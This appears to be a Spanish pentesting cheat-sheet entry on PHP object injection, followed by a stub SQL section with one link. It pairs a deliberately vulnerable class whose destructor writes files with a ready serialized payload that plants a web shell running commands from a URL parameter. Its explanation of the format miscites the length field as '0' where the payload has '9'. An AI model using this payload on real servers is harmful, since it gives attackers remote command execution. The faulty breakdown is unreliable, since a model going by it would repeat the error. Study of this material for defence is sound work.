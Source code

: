 # PHP Object Injection

## Código

```php
class foobarzoo {
    public $csv="entries.csv";
    public $line=null;
    
    function __destruct() {
        file_put_contents($this->csv,$this->line);
    }
}
```

**Payload de explotación**

`data=O:9:"foobarzoo":2:{s:3:"csv";s:8:"evil.php";s:4:"line";s:28:"<?php system($_GET["cmd"])?>";}`

Donde en `O:9:"foobarzoo":2:`:
- `O` &rarr; tipo de dato (objeto).
- `0` &rarr; longitud dato.
- `2` &rarr; cantidad de propiedades.

Donde en `s:3:"csv";s:8:"evil.php"`:
- `s` &rarr; tipo de dato (string).
- `3` &rarr; longitud dato.
- `csv` &rarr; nombre de propiedad.
- `evil.php` &rarr; valor de propiedad.


## Referencias

- https://insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf
- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
- https://nitesculucian.github.io/2018/10/05/php-object-injection-cheat-sheet/
- https://security.stackexchange.com/questions/176263/why-does-this-php-object-injection-exploit-work
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/628481cd4d9c9f7db980a6a92c446d22c26a4aad/Insecure%20Deserialization/PHP.md

# SQL

## sqlmap

https://teckk2.github.io/web-pentesting/2018/02/07/SQL-Injection-(Login-Form-User).html